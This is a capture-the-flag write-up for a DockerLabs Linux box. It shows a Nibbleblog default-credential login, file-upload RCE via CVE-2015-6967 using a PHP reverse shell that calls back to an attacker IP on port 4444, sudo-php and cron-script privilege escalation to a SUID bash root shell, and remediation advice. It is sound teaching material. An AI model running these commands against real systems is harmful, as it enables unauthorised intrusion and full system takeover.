




# ChocolateLovers - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | DockerLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `172.17.0.4` |
| **Date** | February 28, 2026 |

---

## 1. Executive Summary
The exploitation of the **Chocolate** ctf involved a web-based attack vector through a misconfigured **Nibbleblog** instance. By leveraging weak administrative credentials, I gained access to an image upload feature to achieve Remote Code Execution (RCE). Privilege escalation was performed in two stages: first by exploiting `sudo` permissions on `php` to move to a local user, and finally by hijacking a root-level scheduled script to obtain a root shell.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning
The target IP was identified using `arp-scan`. Then I use the script whichSystem to determine the type of system and doing a ping to the ctf. I obtain that is a linux ctf with 64 of ttl
```bash
 whichSystem.py 172.17.0.4
```
Subsequently, a full port scan was executed:
```bash
# Full port scan with service detection and default scripts
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.4 -oG allPorts
nmap -p80 -sCV 172.17.0.4 -oN target
```

**Key Findings:**
Port 80/tcp: ajp13 [] - [Additional Info]
| PORT | SERVICE | VERSION |
| :--- | :--- | :--- |
| **80** | http | Apache httpd 2.4.41 ((Ubuntu)) |

### 2.2 Web Enumeration
Upon inspecting the source code of the main page, a reference to the **/nibbleblog** directory was discovered in the index.html.



Then I accessed that suposed directory in http://172.17.0.4/nibbleblog/ and I encounter with the Nibbleblog app that allows to create and administrate blogs. 


In this post I found the acces to the administration panel link and I access it http://172.17.0.4/nibbleblog/admin.php trying the default password admin:admin we can access the Nibbleblog admin area


## 3. Exploitation (Foothold)
### 3.1 Remote Code Execution (RCE)
Investigating in the settings I found that the version of Nibbleblog is Nibbleblog 4.0.3 which is vulnerable to [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967).


Exploitation Steps:
1. Installed my image plugin
2. Downloaded a standard PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell) modifying the ip and port to 10.0.2.15:4444 respectively.
3. Uploaded the .php shell through the plugin interface.
4. Started a Netcat listener: nc -nlvp 4444.
5. Executed the shell by navigating to the upload path at http://172.17.0.4/nibbleblog/content/private/plugins/my_image/image.php.


```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.4] 45364
$ whoami
www-data
```

Then I stabilize the shell with the following comands
```bash
script /dec/null -c bash
# (Ctrl+Z)
stty raw -echo; fg
export TERM=xterm
```

## 4. Privilege Escalation
### 4.1 Horizontal Escalation (User: chocolate)
After stabilizing the shell, I used the sudo -l to see the binaries that can be runned as a sudo user and I see that I have permision to sudo to php on the user chocolate
```bash
www-data@c8f5dd6eb915:/$ sudo -l
Matching Defaults entries for www-data on c8f5dd6eb915:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on c8f5dd6eb915:
    (chocolate) NOPASSWD: /usr/bin/php
```

After searching on GTFO bins I found the following exploit that allows me to be the user chocolate

```bash
sudo -u chocolate php -r "system('/bin/bash');"
```

### 4.2 Vertical Escalation (User: root)
Internal enumeration of running processes (ps -faux) and file permissions revealed a script located at /opt/script.php being executed by root via a cronjob.

```bash
chocolate@c8f5dd6eb915:/$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2624  1824 ?        Ss   01:17   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
chocolate@c8f5dd6eb915:/$ ls -la /opt/script.php 
-rw-r--r-- 1 chocolate chocolate 59 May  7  2024 /opt/script.php
```

The process tree showed a root-level loop executing the script every 5 seconds. Since the file was owned by the user chocolate, I had full write access to hijack the execution flow.

```bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

And after the scheduled task is executed I executed the bash beeing now the root user and completing the ctf

```bash
chocolate@c8f5dd6eb915:/$ bash -p
bash-5.0# whoami
root
```

## 5. Flags & Proof
www-data



Chocolate



Root



## 6. Remediation & Hardening
1. Password Policy: Implement strong, unique passwords for administrative panels.
2. Secure File Uploads: Update the Nibbleblog to avoid the CVE-2015-6967
3. File System Permissions: Secure sensitive scripts in /opt/ by removing write permissions for non-root users.
4. Sudo Hardening: Avoid granting sudo rights on interpreted languages like php or python.

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)